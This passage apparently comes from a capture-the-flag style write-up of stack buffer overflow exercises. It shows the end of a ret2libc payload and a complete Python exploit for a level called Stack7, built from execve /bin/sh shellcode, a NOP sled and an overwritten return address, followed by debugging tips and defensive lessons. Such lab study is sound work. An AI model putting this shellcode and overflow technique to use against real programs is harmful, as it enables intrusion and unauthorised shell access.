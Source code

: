 ```python
SH = SH + old_ebp + ret_addr + exit_addr + para

sys.stdout.write(SH + "\n")
```

## Stack7: Getting Fancy

The final boss! This one combines everything we've learned plus some new tricks.

```python
#!/usr/bin/env python
import sys

SHELL_CODE = "\x31\xc0\x50\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80"
NOP = "\x90"

# Found a nice 'jmp eax' instruction we can use
ret_addr = "\xeb\x85\x04\x08"
old_ebp = "\xff\xff\xff\xbf"

buff_size = 0x4c

SH = NOP*4 + SHELL_CODE
SH = SH + NOP*(buff_size-len(SH))
SH = SH + old_ebp + ret_addr

sys.stdout.write(SH + "\n")
```

## Tools That Saved My Bacon

1. **GDB** - Your best friend in this journey. Learn to love it.
   ```bash
   gdb ./binary
   break main
   run
   x/wx $esp  # Look at stack memory
   ```

2. **strace** - When you have no idea what's going wrong
   ```bash
   strace -i ./program
   ```

## Lessons Learned

After all this, here's what stuck with me:
- Always check input lengths (seriously, `gets()` is never your friend)
- Memory layout matters more than you think
- GDB is confusing at first but invaluable once you get used to it
- Stack protection exists for a reason!
